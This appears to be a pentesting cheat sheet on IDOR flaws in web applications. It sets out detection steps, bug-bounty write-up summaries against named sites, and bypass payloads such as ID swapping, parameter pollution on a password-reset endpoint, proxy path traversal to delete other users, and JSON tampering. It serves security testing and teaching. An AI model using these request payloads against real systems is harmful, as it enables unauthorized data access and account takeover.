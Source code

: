 # Detection
- Need two accounts
- Search for pages that return/modify user information like Read/Delete user messages/files
- Search for  parameters that contain numbers/usernames/ID in Requests and change them.
- Tricky IDOR in state-changing endpoints.
  - Change the `attach_id` in `/ticket-submit.php` request to an attachment that doesn't belong to us like `2222`. 
  ```html
  POST http://77.238.121.150:58480/ticket-submit.php HTTP/1.1
  (POST request body)
  product=2&subject=e&description=q&attach_id=2222&submit=Submit+a+ticket
  ```

# WriteUps
- Change `ids` in Delete video request functionality of https://my.snapchat.com/.
- Change `user_id` in POST request json parameters for join.nordvpn.com/api/v1/orders to get sensitive customer data.
- Change base64 encoded value of `"campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA=="` to delete any Campaigns in UpdateCampaign functionality.
- Change message number in `DELETE /api/v1/messages/4423007/` to delete all messages in www.redditgifts.com.
- Change `id` in Edit "Licenses and certifications" functionality in www.hackerone.com.
- Change `id` in Email Change functionality of indiehackers.com that leads to account take over.
- Change `data-id` in `settings/personal/authtokens/wipe/{data-id}` to wipe out other users device in nextcloud.com.
- Change `"orderKeys":["43b29d60a9724fa9abbdc800044002d6"]}` to see other's order in app.mopub.com/web-client/api/orders/stats/query POST request.
- Change `id` in admin.shopify.com/api/shopify/?operation=BillDetails&type=query that leads to dump billing details for every other shops.

# Bypass
- Encoded/Hashed IDs
  - Recognize encodings (like *base64*, *URL encoding*, and *base64url*) with Burp’s Smart Decode tool.
  - hashed/randomized ID  →  Check if the ID is predictable by creating a few accounts to analyze how these IDs are created.
  - UUID  →  It's not IDOR unless we can leak others UUIDs.
    - There may be endpoints to translate emails or other properties into UUIDs, check for those.
    - Try to swap UUID with number, `/file?id=47657c0a-5d8b-423a-9311-978903d7efd4`  →  `/file?id=1234`
 - The application might leaks IDs via another API endpoint or other public pages of the application, like the profile page of a user.
- If no IDs exist in the application-generated request, try adding one to the request.
  - Append `id`, `user_id`, `message_id`, or other object references to the URL query, or the POST body parameters, and see if it makes a difference to the application’s behavior.
  - `GET /api_v1/messages`  →  `GET /api_v1/messages?user_id=ANOTHER_USERS_ID`
- Leverage **Mass Assignment** to discover IDOR in state-changing functionalities by adding parameters to the endpoint which return the information.
  - `/api/v1/getuser`  →  `/api/v1/getuser?id=1234`
- Blind IDORs
  - The application might leak information elsewhere, like *export files*, *email*, *text alerts*.
  - This request will send a copy of receipt 3001 (another user) to the registered email of the current user.
  ```html
  POST /get_receipt
  (POST request body)
  receipt_id=2983
  ```
- Verb tamper
  - `GET`  →  `DELETE`
  - `POST`  →  `PUT`
  - `POST` →  `GET`
- Use extension to bypass forbidden actions
  - `/v2/GetData/1234`  →  403 Forbidden
  - `/ve/GetData/1234.json`  →  200 OK
- Endpoint fuzzing (first wordlist should include `users` and second wordlist should include `me`)
  - `/endpoints/[FUZZ]/[FUZZ]`  →  `/endpoints/users/me`
  - `GET /api/list/user1c2e8e94/?secret=BAA3060DC05EcCD HTTP/1.1`  →  `GET /api/list/all/?secret=BAA3060DC05EcCD HTTP/1.1`
- Use Parameter Pollution to discover IDOR or bypass the forbidden actions.
  ```bash
  POST /api/forget_password
  (POST request body)
  
  email=victim_email&email=hacker_email                      # paylaod 1
  {"email": "victim_email", "email": "hacker_email"}         # paylaod 2
  ```
- Check outdated API versions (or even upcoming version)
  - `/v2/GetData`  →  `/v1/GetData`
- Manipulate JSON packets
  ```bash
  POST /api/get_profile
  {"id": 111}

  {"id": [111]}
  {"id": []}
  {"id": [.]}
  {"user_id": {"user_id":111}}
  ```
- Abusing Reverse-Proxy
  - `POST /users/delete/VICTIM_ID`  →  403 Forbidden
  - `POST /users/delete/MY_ID/../VICTIM_ID`  →  200 OK
  - `POST /users/delete/MY_ID%2f%2e%2e%2fVICTIM_ID`  →  200 OK (Using encode)
- Try to discover hidden parameter even-though there is an ID in the request. (guess, extract or fuzz parameters)
  ```bash
  GET /v2/profile/1000                 # 200 OK
  GET /v2/profile/1001                 # 403 Forbidden

  GET /v2/profile/10007 [FUZZ]=1001
  GET /v2/profile/10007user_id=1001    # 200 OK
  ```
  ```bash
  POST /v2/profile 1
  name=yashar&email=y.shahinzadeh@gmail.com

  POST /v2/profile?user_id=1001
  name=yashar&email=y.shahinzadeh@gmail.com
  ```
  ```bash
  POST /v2/profile
  user_id=1000

  POST /v2/profile?user_id=1001
  user_id=1000  
  ```

# Escalat
- State-changing (write-based IDORs) →  _password reset_, _password change_, _account recovery_
- Non-state-changing (read-based IDORs)  →  _direct messages_, _personal information_, _private content_
- Combine IDORs with other vulnerabilities to increase their impact.
  - Write-based IDOR + self-XSS  →  Stored XSS
  - IDOR on a password reset endpoint + Username enumeration  →  Mass account takeover
  - Write-based IDOR on an admin account  →  RCE

# Automate
- Use the Burp intruder to iterate through IDs to find valid ones.
- Burp extension
  - **[Autorize](https://github.com/Quitten/Autorize/)** scans for authorization issues by accessing higher-privileged accounts with lower-privileged accounts
  - **[Auto Repeater](https://github.com/nccgroup/AutoRepeater/)** and **[AuthMatrix](https://github.com/SecurityInnovation/AuthMatrix/)** allows to automate the process of switching out cookies, headers, and parameters.

# Resource
- https://book.hacktricks.xyz/pentesting-web/idor
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References
